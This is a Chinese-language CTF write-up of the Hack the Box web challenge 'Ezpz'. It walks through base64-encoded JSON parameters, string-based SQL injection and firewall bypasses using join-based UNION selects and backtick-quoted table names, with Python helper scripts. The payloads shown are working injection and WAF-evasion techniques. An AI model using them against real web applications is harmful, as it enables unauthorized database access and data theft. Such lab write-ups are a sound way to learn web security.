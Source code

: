 ```yaml
---
title: "Hack the Box——Ezpz"
date: 2019-12-30T12:26:33+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```


## ezpz

访问HTB给的地址，进来就看想两个类似报错的东西。

![1](1.png)


### 尝试

这报错一看应该是少传了什么参数吧。试试加上个get参数

`?obj=1`

第一行报错没了，剩下第二行

![2](2.png)

试试再加一个参数

`?obj=1&ID=1`

错误并没有消失。因为第一个报错和第二个报错的内容不是很一样，我猜ID这个参数会不会是从POST传过去的。

![3](3.png)

报错以然存在，看来思路错了。

仔细读一下第二行报错`尝试从一个空对象获取ID属性`，是不是ID是附加在obj参数里的呢。

又尝试了几种payload

```

?obj=ID%3d1
?obj={"ID":"1"}
?obj=<ID>1</ID>
```

依然无效。

### 转机

因为对于burp的repeater不是很有把握，我决定用python写脚本再试试。

我发现打印的response.text里的最后一行居然有个hint的注释

![4](4.png)

出题人用了好多空行把它藏在了最后导致burp一眼看到。

![5](5.png)

既然他给了hint，那就试试吧。

把上面几个payload分别用base64编码。最后`?obj={"ID":"1"}`编码后得到payload为

`?obj=eyJJRCI6IjEifQ==`

这个参数请求后两个错误都消失了

### 真正的挑战

虽然错误没了，但是并没有出现flag，那说明关卡还要继续。因为每次都要base64编码一下参数用burp有点麻烦。顺手写了个脚本

```python   

def injection(payload):
    params = {
        "obj": base64.b64encode(payload.encode())
    }
    url = "http://docker.hackthebox.eu:30548/index.php"
    r = requests.get(url, params=params)
    soup = BeautifulSoup(r.text, 'html.parser')
    print(soup.body.text.strip())

if __name__ == '__main__':
    payload1 = '{"ID": "1"}'
    injection(payload1)
```

先试试sql注入`payload1 = '{"ID": "1"}'`，返回了新的错误信息，但是好像没太多有用的。

![6](6.png)

不过也说明了他这里是存在注入的吧。

### 开始测注入

#### 整型还是字符串型？

尝试`payload1 = '{"ID": "1 and 1=2 #"}'`返回正常结果

再尝试`payload = '{"ID": "1\' or 1=2 #"}'`,返回空。

这么看起来应该是第二个的and有效果，至于第一个为什么能返回正常结果我也不太清楚，下次用php试试。

这里应该就能猜出他这个`ID`是字符型。

#### 继续猜信息

尝试`payload1 = '{"ID": "-1\' union select 1, 2"}'`

返回的结果是`This request has been blocked by the server's application firewall`

看起来还有一层防火墙

稍微尝试了一下，有一些关键字和符号被过滤了，比如`where`, `limit`, `,`, `.`

因为没有逗号，所以改成用join来union

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select 2 )B );#"}'`

我想用user()和databse()函数来直接回显信息，不知道为什么报错了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select user() )B );#"}'`

加上length()函数有莫名其妙可以了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select length(user()) )B );#"}'`

user()函数返回长度14，盲猜是root@localhost，爆出来应该也没什么意义

然后随手猜了下database(), length = 4，数据库名为ezpz

#### 换方向

flag应该是藏在数据库的某个地方，先查查表名

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select table_name from information_schema.tables )B );#"}'`

但是这个也被拦截了，那么究竟拦截的是哪个字符串呢，写个函数判断一下

```python
def get_blocked_word(s):
    words = s.split(" ")
    for word in words:
        payload = '{{"ID": "-1\' union select * from ((select 1)A join (select \'{}\')B);#"}}'.format(word)
        print(word, injection(payload))

s = "select table_name from information_schema.columns"
get_blocked_word(s)
```

输出结果

```
select select
table_name table_name
from from
information_schema.tables This request has been blocked by the server's application firewall
```

再改改参数测一下，.asdtables并不会被拦截，那应该是.tables被拦截了

我记得mysql是可以给表名和数据库加上反引号"`"的，试了一下，成功的爆出了表名

![8](./8.png)

随手搜索一下`flag`，发现有张表叫`FlagTableUnguessableEzPZ`，那flag肯定在这张表里了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select * from FlagTableUnguessableEzPZ )B );#"}'`

跑了一下，flag果然在这

![9](./9.png)

2020/2/17

寒假之前没做完的题，现在想起来才给它做了~




